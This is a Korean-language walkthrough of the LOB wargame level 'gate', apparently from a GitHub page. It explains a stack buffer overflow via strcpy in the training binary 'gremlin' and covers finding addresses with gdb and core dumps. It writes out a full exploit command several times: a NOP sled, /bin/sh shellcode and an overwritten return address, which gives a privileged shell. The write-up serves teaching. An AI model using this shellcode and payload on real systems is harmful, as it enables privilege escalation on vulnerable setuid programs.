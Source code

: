# LOB - Gate

## 주어진 파일

https://github.com/sjw9408/LOB/blob/master/LOB%20-%20Gate.assets/1567941739468.png


ID : gate

PW : gate로 접속한다.



![1567941702228](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941702228.png)

```c
vi gremlin.c
```

![1567930461328](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567930461328.png)



위의 프로그램은 ./실행파일, 인자

를 넣어서 실행하는 파일로, 인자를 넣지 않는다면 error

인자를 넣는다면 인자를 그대로 출력해 주는 프로그램이다.

하지만, strcpy를 통해 buffer의 크기인 256을 넘어가면 문제가 생기게 된다.



## GDB

처음 gdb로 확인하려면 자신의 권한으로 까야하기 때문에 main 페이지에 있던 gremlin 파일을 디렉터리를 새로 만들어서 복사한다.

```mkdir
mkdir tmp
cp gremlin tmp/
```

![1567941473987](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941473987.png)



복사를 하고 나면 소유자와 그룹이 gremlin 이었던 파일이 자신의 이름인 gate와 gate로 바뀐 것을 볼 수 있다.

이제 gdb를 실행할 수 있다.



```c
gdb gremlin
```

![1567931017425](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567931017425.png)



gdb로 main문을 보면 sub 0x100으로 버퍼 크기인 256 바이트가 보인다.



![1567930817522](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567930817522.png)

위의 프로그램은 버퍼에 256 byte, SFP에 4 byte, RET에 4 byte 가 들어가서 



SFP :   Saved Frame Pointer로 프레임 포인터 값을 가지는 공간으로서 만약 main에서 다른 함수를 호출했을때, 돌아올 주소를 저장하는 공간이다.

-> EBP



RET은 Retrun Address 로써 프로그램이 마치면 돌아갈 주소를 저장하는 공간으로 bof의 궁극적 목적 공간이다.

이 ret을 조작하여 다른 곳으로 돌아가게 할 수 있으며, SetUID가 걸렸을 경우 쉘로 조작하여 상위 권한의 수을 얻을 수 있다.



RET은 우리가 실행해야할 주소가 들어가야하므로

Buffer 부분에 쉘코드를 집어 넣은 후 SFP까지 0x90으로 Nop 값을 채워주면 된다.

Buffer 는 256 byte

SFP 는 4 byte 이므로 260 byte를 채우고,

RET 에 내가 점프하고 싶은 부분의 주소를 넣으면 된다.



```c
buffer의 크기는 256 byte
SFP의 크기는 4 byte 
이므로 둘을 더한 260 byte (= 0x104)
    
./gremlin `python -c 'print "a"*0x104'`
를 실행하면 segmentation fault 가 뜬다.
```





## 쉘코드

- https://security-nanglam.tistory.com/117 에서 쉘코드 가져옴

![1567941320888](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567941320888.png)

```c
\x90으로 215 바이트
쉘코드 25 바이트
\x90 20바이트	를 채워서 Buffer + SFP 의 크기인 260 바이트를 채워주고
마지막에 RET 값을 넣는다.

./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"내가 점프하고 싶은 부분의 주소"'`
```

- 첫 부분에 쉘코드를 넣으면 정확한 주소 값을 알고 난 후 공격해야하므로 
- Nop으로 앞부분을 채워준 후 쉘코드 + Nop + RET 값을 넣는다.
- 하지만 쉘코드와 RET 주소 값을 가장 뒤에 같이 두면 쉘코드 뒤에 따라 나오는 값이 있을 수 있으므로

- 쉘코드 뒤에 어느 정도 Nop을 넣어준 후 마지막에 점프하고 싶은 부분의 주소(RET)를 넣어줘야한다.





일단 RET 부분에 aaaa를 넣고 aaaa가 어디에 들어가는지 보았다.

```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\x61\x61\x61\x61"'`
```



```c
gdb gremlin 명령어를 통해 gdb를 열고 위의 POC를 적는다.
```

![1567939292222](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567939292222.png)



0x61616161 주소가 뭐냐고 묻는다.



- RET에 0x61616161이 들어갔으므로 eip에 들어간다.

![1567939240330](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567939240330.png)



```c
x/100wx $esp+300 명령어로 어떻게 값이 들어갔는지 보면
```

![1567939933686](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567939933686.png)

위와 같이 Nop으로 값이 채워지고, 중간에 쉘코드, Nop, RET 값이 들어가는 것을 볼 수 있다.

이제 맨 마지막 0x61616161 자리에 Nop이 있는 주소 중 아무거나 넣어주면 된다.

하지만 tmp 디렉터리 내에서 실행하면 gremlin 파일이 gate 권한을 가지고 있으므로, main으로 돌아가서 실행한다.

![1567942068037](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567942068037.png)

```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\xdc\xfb\xff\xbf"'`
```





### 위의 명령어로 되지 않을때

하지만 gdb를 실행할때마다 주소값이 차이가 조금씩 나기 때문에,

위의 명령어로 되지 않을 수도 있다.

그래서 core 파일을 확인해본다.



- segmentation fault 날 때 core dumped 를 통해 나오는 core 파일을 확인한다.

![1567940758653](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567940758653.png)

위와 같이 core dumped가 나오면



다음과 같이 core 파일이 생긴다.

![1567941218417](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941218417.png)



```c
gdb -c core 명령어를 통해 들어간 후
```

![1567940878365](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567940878365.png)



```c
x/100wx $esp+300 값을 통해 값이 어디에 들어갔는지 확인해본다.
```

![1567941114068](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941114068.png)



이 중 Nop 값 중 하나를 선택해서 RET에 넣으면 된다.

하지만 tmp 디렉터리 내에서 실행하면 gremlin 파일이 gate 권한을 가지고 있으므로, main으로 돌아가서 실행한다.

![1567942068037](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567942068037-1568525258114.png)



```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\xcc\xfb\xff\xbf"'`
```

![1567941814846](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941814846.png)

쉘이 뜬다.



![1567941853794](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941853794.png)

ID를 보면 gremlin이 있다.

my-pass 를 보면 gremlin의 password가 나온다.

